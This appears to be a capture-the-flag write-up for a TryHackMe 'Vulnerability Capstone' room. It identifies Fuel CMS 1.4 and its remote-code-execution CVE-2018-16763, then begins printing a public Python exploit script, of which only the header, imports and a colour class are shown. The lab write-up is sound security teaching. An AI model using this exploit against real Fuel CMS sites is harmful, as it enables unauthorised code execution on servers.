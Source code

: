 ### **Vulnerability Capstone** <a href="#z1qn54aefdy0" id="z1qn54aefdy0"></a>

1. What is the name of the application running on the vulnerable machine?

Fuel CMS

1. What is the version number of this application?

Version 1.4

1. What is the number of the CVE that allows an attacker to remotely execute code on this application?
   * Used Exploit Database to search for 'remote code execution fuel cms 1.4'.
   * Produced 3 results.
     * Each referred to CVE-2018-16763.
2. Find and use a relevant exploit to exploit this vulnerability.
   * THM listed a compatible exploit as the question hint.

There is an exploit located on the AttackBox under /usr/share/exploits/vulnerabilitiescapstone

* Content of exploit file:

\#!/usr/bin/python3

\# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution

\# Date: 2019-07-19

\# Exploit Author: 0xd0ff9

\# Vendor Homepage: https://www.getfuelcms.com/

\# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1

\# Version: <= 1.4.1

\# Tested on: Ubuntu - Apache2 - php5

\# CVE : CVE-2018-16763

\#

\# Poc Created by Ac1d (assassin)

import requests

import sys

import urllib

from requests.sessions import extract\_cookies\_to\_jar

class col:

HEADER = '\033\[95m'

BLUE = '\033\[94m'

CYAN = '\033\[96m'

GREEN = '\033\[92m'
